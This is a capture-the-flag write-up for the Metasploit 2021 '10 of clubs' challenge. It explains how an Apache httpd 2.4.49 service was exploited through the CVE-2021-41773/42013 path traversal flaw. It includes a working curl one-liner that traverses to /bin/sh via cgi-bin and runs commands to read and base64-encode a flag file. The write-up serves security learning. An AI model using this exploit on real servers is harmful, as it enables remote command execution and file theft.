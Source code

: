 ```yaml
---
layout: load_md
title: The White Circle | Metasploit 2021 | 10 of clubs Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Metasploit 2021
parent: metasploit_2021
category: 10_of_clubs
challenge: 10 of clubs
tags: "web, starry, cve, rce"
---
```


<h1 class="heading card-title white-text">Metasploit 2021</h1>
## 10 of clubs

> Solved by: Starry-Lord

```
port 12380
```

This port was using Apache httpd 2.4.49 and I found a good research on the subject here:

https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013


I didn't need to get a shell. ls and cat commands were enough to extract the png:


```
curl -vv 'http://172.17.15.117:12380/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh' -d 'A=|echo; cat ../secret/safe/flag.png|base64'
```

![](https://i.imgur.com/aYyIBok.png)